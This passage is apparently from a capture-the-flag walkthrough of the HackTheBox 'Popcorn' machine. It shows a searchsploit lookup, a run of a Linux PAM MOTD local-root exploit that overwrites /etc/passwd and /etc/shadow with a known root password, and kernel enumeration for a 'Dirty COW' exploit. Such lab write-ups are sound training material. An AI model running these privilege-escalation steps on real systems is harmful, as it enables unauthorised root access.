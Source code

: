 ```
┌──(Hades㉿10.10.14.5)-[2.8:26.0]~/walkthrough/hackthebox/popcorn
└─$ searchsploit motd
---------------------------------------------------- ---------------------------------
 Exploit Title                                      |  Path
---------------------------------------------------- ---------------------------------
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tam | linux/local/14273.sh
Linux PAM 1.1.0 (Ubuntu 9.10/10.04) - MOTD File Tam | linux/local/14339.sh
MultiTheftAuto 0.5 patch 1 - Server Crash / MOTD De | windows/dos/1235.c
---------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

I used exploit `linux/local/14339.sh` to get root in `Popcorn server`.

```
www-data@popcorn:/tmp$ bash 14339.sh
bash 14339.sh
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: toor

root@popcorn:/tmp# whoami
whoami
root
```

### 'Dirty COW' Kernel

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/popcorn)

Also check kernel, the OS version is `2.6.31-14-generic-pae`. Search it with google and I found the exploit in the first result.

```
www-data@popcorn:/home/george$ uname -a
uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/home/george$ cat /etc/issue
cat /etc/issue
Ubuntu 9.10 \n \l
```

